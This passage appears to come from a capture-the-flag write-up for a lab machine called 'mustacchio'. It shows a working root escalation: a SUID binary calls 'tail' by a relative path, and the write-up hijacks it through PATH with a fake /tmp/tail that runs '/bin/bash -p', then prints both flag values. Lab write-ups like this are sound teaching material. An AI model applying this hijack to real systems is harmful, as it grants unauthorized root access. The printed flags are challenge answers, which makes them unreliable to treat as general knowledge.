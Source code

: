 ```
/bin/fusermount
/bin/su
```


Found something interesting, we got `/home/joe/live_log`, if we use strings to analyze it. we can find this:

![Pasted image 20250317185702.png](../../IMAGES/Pasted%20image%2020250317185702.png)

This binary runs `tail -f /var/log/nginx/access.log`Â using aÂ **relative path**Â (`tail` instead ofÂ `/usr/bin/tail`).

We can hijack theÂ `tail`Â command by creating a malicious script namedÂ `tail`Â in a directory we control and prepend that directory to theÂ `PATH`.

Since this is owned by root, we can escalate our privileges into root by doing this:


```
echo '/bin/bash -p' > /tmp/tail
chmod +x /tmp/tail
export PATH=/tmp:$PATH
/home/joe/live_log
```

We get this:

![Pasted image 20250317185813.png](../../IMAGES/Pasted%20image%2020250317185813.png)

And we got root access, let's read both flags:


```
root@mustacchio:~# cat /home/barry/user.txt
62d77a4d5f97d47c5aa38b3b2651b831
```

```
root@mustacchio:~# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```
